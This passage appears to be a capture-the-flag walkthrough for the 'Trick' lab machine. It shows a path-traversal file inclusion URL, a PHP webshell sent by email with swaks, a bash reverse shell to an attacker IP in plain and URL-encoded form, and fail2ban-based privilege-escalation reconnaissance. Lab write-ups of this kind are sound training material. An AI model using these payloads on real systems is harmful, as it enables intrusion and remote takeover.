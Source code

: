 Now, if we enter following url, we can read the email we just sent:

```
http://preprod-marketing.trick.htb/index.php?page=....//....//....//var/mail/michael
```

Now that we confirmed that we can send and read files, we can send php code
inside an email, that should execute when read via url.

Let's send simple webshell:

```sh
swaks --to michael --from xkali \ 
      --header "Subject: Testing" \
      --body '<?php system($_REQUEST["cmd"]); ?>' \
      --server 10.10.11.166
```

We can test it by:

```
...SNIP... ?page=....//....//....//var/mail/michael?cmd=id
```

Since on this server messages are deleted (or moved) every two minutes,
we need to run reverse shell from our webshell:

```
bash -c 'exec bash -i &>/dev/tcp/10.10.14.12/12345 <&1'
```

URL encoded:

```
bash%20-c%20%27exec%20bash%20-i%20%26%3E%2Fdev%2Ftcp%2F10.10.14.12%2F12345%20%3C%261%27
```

# Shell as root

We can see that michael can restart fail2ban as root:

```sh
sudo -l

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```

Also, he belongs to security group:

```sh
michael security
```

Which can change fail2ban config on this particular system:

```bash
> find / -group security 2>/dev/null
/etc/fail2ban/action.d

> ls -ld /etc/fail2ban/action.d/
drwxrwx--- 2 root security 4096 May 26 18:48 /etc/fail2ban/action.d/
```
